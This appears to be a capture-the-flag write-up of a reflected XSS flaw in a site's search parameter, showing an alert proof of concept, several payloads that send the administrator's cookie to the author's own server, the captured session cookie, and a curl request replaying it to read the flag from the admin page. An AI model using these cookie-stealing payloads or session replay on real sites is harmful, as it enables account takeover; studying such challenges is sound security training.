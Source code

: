 # Info

The challenge brings us back to a site.
Let's try a little ...
Ok, when we do a search, the search is rewritten in the html code. So let's try an xss payload just to try it out.

OK! It is therefore an xss flaw. (see PoC below)

Let's exploit.

The objective is to redirect the administrator, (who will click on our link that we will send him in the support section), to our own server using an html request and who will give us his cookie. Once his cookie has been recovered, we can pretend to be him and then connect to the admin area (see the cURL part) 

(Below some tests until my good one) 


# Payload XSS for the PoC:
https://searchme.0xhorizon.eu/?search=%22%3Cimg%20src=x%20onerror=%27alert(1)%27%3E%22


# Payload to redirect:
### Doesn't works --> probably cause of " which break the payload
`https://searchme.0xhorizon.eu/?search="<img src=x onerror='document.location="http://ip_of_my_aws_server:8888?hello="+document.cookie'>"`

`https://searchme.0xhorizon.eu/?search="<img src=x onerror='window.location="http://ip_of_my_aws_server:8888?hello="+document.cookie'>"`

### trying to correct it, BUT we can't add something
`https://searchme.0xhorizon.eu/?search="<img src=x onerror='alert(document.location="http://ip_of_my_aws_server:8888?hello="+document.cookie)'>"`

# Good Payload

In fact, we just needed to .concat instead of adding.

`https://searchme.0xhorizon.eu/?search="<img src=x onerror='alert(document.location="http://ip_of_my_aws_server:8888?hello=".concat(document.cookie))'>"`

# Response

`151.80.56.168 - - [04/Nov/2021 21:00:43] "GET /?hello=login=999eb32cea9627e00939b81766f00694 HTTP/1.1" 200 -`

So we get the cookie : login=999eb32cea9627e00939b81766f00694

# Let's play cURL

`curl -H "Cookie: login=999eb32cea9627e00939b81766f00694" https://searchme.0xhorizon.eu/admin.php | grep 'horiz0nx'`    

    % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
    Dload  Upload   Total   Spent    Left  Speed
    100  2045  100  2045    0     0  30984      0 --:--:-- --:--:-- --:--:-- 30984
         
    <p class="card-text">My coffee machine: horiz0nx{C00ffee__m@ch1ne__1s__y0ur_n0w}</p>
 
## Gotcha !

horiz0nx{C00ffee__m@ch1ne__1s__y0ur_n0w}
